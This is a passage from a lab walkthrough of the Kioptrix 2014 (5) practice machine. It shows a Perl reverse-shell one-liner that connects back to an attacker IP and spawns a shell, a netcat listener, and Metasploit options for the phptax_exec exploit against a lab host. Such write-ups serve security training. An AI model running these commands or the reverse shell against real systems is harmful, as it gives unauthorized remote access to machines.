 ![image-20231117095451323](./KIOPTRIX%202014%20(5).assets/image-20231117095451323.png)

![image-20231117095457957](./KIOPTRIX%202014%20(5).assets/image-20231117095457957.png)

- inject perl code: `perl -e 'use Socket;$i="192.168.123.15";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};'`
- on host, `sudo nc -lvnp 1234`

##### (2) 21833 - metasploit

```
msf6 exploit(multi/http/phptax_exec) > options

Module options (exploit/multi/http/phptax_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.123.127  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      8080             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /phptax/         yes       The path to the web application
   VHOST                       no        HTTP server virtual host

```